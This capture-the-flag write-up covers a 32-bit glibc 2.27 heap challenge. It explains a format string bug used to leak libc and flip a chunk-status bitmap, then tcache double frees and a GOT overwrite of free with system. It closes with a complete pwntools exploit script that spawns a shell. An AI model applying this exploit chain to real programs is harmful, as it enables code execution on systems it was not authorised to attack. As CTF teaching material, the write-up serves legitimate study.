

We are given 3 files the binary, zip archive with libc and ld and bash script that runs the binary. 
First let's look at the binary in IDA:


Here is the code that simply reads a character and executes a command appropriate to it. But what of v4 variable used for ?
Lets look deep into the function allocate_chunk:


The function allocate_chunk first reads id,after that it checks if ID bit of v4 is 0 and if it is it reads size and content and sets the chunks[id] to malloc(size).
So v4 is used to check if chunk is freed or used. If the ID bit is set to 0 it is freed and if it's not it is allocated.
Now let's look at the list_chunks_content:



Function prints all the chunks content with printf passing the chunk address as the first argument and here we have a format string vulnerability. We don't have an arbitary write here because format string isn't on the stack, but address v4 is. So we can overwrite v4 to get double free.
The glibc2.27 is used in this task, in this version tcache was added. When multiple threads are using heap the heap manager locks the heap while one thread is using it to avoid errors.So to make the allocations faster peaple made a tcache. A tcache or per thread cache is a bin that is own for each of threads unlike the other bins, so when u are using a tcache heap manager doesn't need to lock a heap and allocations go faster. But there is no security checks in tcache. Since glibc2.27 tcache is used by default, You can read more about tcache here https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/implementation/tcache/.

Our strategy is pretty simple:
1. we leak the libc using format string vulnerabilitiy.
2. we create two chunks in second chunk is payload to overwrite the v4 with 0b111 (7).
3. free first chunk
4. overwrite the v4
5. free first chunk again
6. overwrite the v4 again
7. free first chunk again
8. allocate chunk with content p32(freegot) to overwrite the bk pointer to freeaddress in got table
9. allocate chunk with content "/bin/sh\x00"
10. allocate chunk with content p32(system)
11. free chunk with /bin/sh

The final exploit:
```python
from pwn import *
cmd = lambda x : p.sendlineafter('4) quit\n>', str(x))
answer = lambda x : p.sendlineafter(': ', str(x))
def allocate_chunk(id, size, content):
	cmd(1)
	answer(id)
	answer(size)
	answer(content)
	p.send('\n')

def delete_chunk(id):
	cmd(3)
	answer(id)
def list_chunks():
	cmd(2)
	return p.recvuntil('\n\n').split('\n')[:-2]
freegot = 0x804b43c
p = process('./df', env={'MALLOC_CHECK_':'0', 'LD_PRELOAD' : "/opt/glibc2.27x86/lib/libc.so.6 /opt/glibc2.27x86/lib/libpthread.so.0 /opt/glibc2.27x86/lib/ld-linux.so.2"})
#p = process('./df')
#p = remote('tasks.open.kksctf.ru', 10000)
libc = ELF('/opt/glibc2.27x86/lib/libc.so.6')
gdb.attach(p)
allocate_chunk(0, 128, '%13$p')
libc_base = int(list_chunks()[0][2:],16)-0x1dba5
system = libc_base+libc.symbols['system']
print 'LIBC leak:', hex(libc_base)
print 'system:', hex(system)
delete_chunk(0)
allocate_chunk(0, 128, 'a'*8)
allocate_chunk(1, 128, '%7c%6$hhn')
delete_chunk(0)
list_chunks()
delete_chunk(0)
list_chunks()
delete_chunk(0)
allocate_chunk(3, 128, p32(freegot))
allocate_chunk(5, 128, '/bin/sh\x00')
allocate_chunk(0, 128, p32(system))
delete_chunk(5)
p.interactive()```

